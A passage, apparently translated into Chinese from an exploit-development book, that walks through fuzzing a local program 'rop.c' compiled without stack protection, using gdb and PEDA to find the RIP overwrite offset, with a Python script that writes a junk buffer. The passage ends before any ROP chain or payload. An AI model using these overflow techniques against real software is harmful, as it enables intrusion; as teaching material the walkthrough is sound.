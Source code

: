 让我们编译它，但不禁用 NX：

```
$ gcc -fno-stack-protector rop.c -o rop
```

然后，启动`gdb`：

```
$ gdb ./rop
```

现在，让我们确认 NX 已启用：

```
$ peda checksec
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00318.jpeg)

现在让我们使用 PEDA 而不是 Metasploit 框架执行模糊化和控制 RIP：

```
$ peda pattern_create 500 pattern
```

这将创建一个`500`字符的模式，并保存一个名为`pattern`的文件。现在，让我们将此模式作为输入来阅读：

```
$ run < pattern
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00319.jpeg)

程序崩溃了。下一步是检查堆栈中的最后一个元素，以计算 EIP 的偏移量：

```
$ x/wx $rsp
```

我们得到堆栈中的最后一个元素为`0x41413741`（如果您使用相同的操作系统，则此地址应相同）。现在，让我们看看这个图案的偏移量和下一个偏移量是否是 RIP 的精确偏移量：

```
$ peda pattern_offset 0x41413741
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00320.jpeg)

因此，RIP 的准确偏移量将从`105`开始。让我们确认一下：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += "B"*6
f = open("input.txt", "w")
f.write(buffer)
```

